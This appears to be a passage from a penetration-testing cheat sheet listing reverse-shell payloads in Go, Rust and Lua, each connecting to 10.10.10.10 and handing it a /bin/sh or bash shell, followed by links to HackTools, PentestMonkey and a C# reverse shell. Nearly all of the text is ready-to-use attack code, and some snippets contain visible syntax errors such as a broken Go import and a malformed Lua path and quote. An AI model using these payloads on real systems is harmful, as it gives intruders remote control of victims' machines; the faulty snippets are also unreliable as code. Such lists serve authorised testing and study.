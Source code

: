 ## Golang

```go 
echo 'package main;import"os/exec";import"net;funcmain(){c,_:=net.Dial("tcp","10.10.10.10:9001");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Rust

```rust
use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

fn main() {
 let s = TcpStream::connect("10.10.10.10:9001").unwrap();
 let fd = s.as_raw_fd();
 Command::new("bash")
 .arg("-i")
 .stdin(unsafe { Stdio::from_raw_fd(fd) })
 .stdout(unsafe { Stdio::from_raw_fd(fd) })
 .stderr(unsafe { Stdio::from_raw_fd(fd) })
 .spawn()
 .unwrap()
 .wait()
 .unwrap();
}
```

## Lua

```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.10.10.10','4444');os.execute('bin/sh -i <&3 >&3 2>&3);"
```


## References

[HackTools](https://github.com/LasCC/Hack-Tools)
[PentestMonkey](https://pentestmonkey.net/)
[Bank Security Simple C# Reverse Shell](https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs)